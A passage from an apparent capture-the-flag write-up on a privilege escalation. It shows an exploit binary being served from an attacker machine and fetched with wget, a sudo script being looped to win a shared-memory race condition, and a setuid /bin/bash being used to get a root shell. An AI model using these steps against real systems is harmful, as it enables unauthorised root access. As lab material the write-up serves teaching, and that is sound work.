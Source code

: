 And transfer it over to the machine:

`kali`

```
python3 -m http.server 80
```

`reader`

```
wget http://10.10.14.158/a.out
```

Next let's create another shell for reader:

Finally let's run the shell script we have perms on and while that's running run the binary:


`Let's loop the shell script so we don't have to fight for the race condition`
`we need 2 shells to do this:`

```
while true; sudo /opt/hash-checker/check-leak.sh bob; done 

Password is leaked!
Using the shared memory 0x14DC1 as temp location

./a.out 

ERROR 1064 (42000) at line 1: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '"' at line 1
Failed to read result from the db
```

Let's check the file permissions to see that we have successfully edited them:

```
-rwsr-sr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```

Success! let's run it with the preserve permissions flag:

```
/bin/bash -p

bash-5.1#
```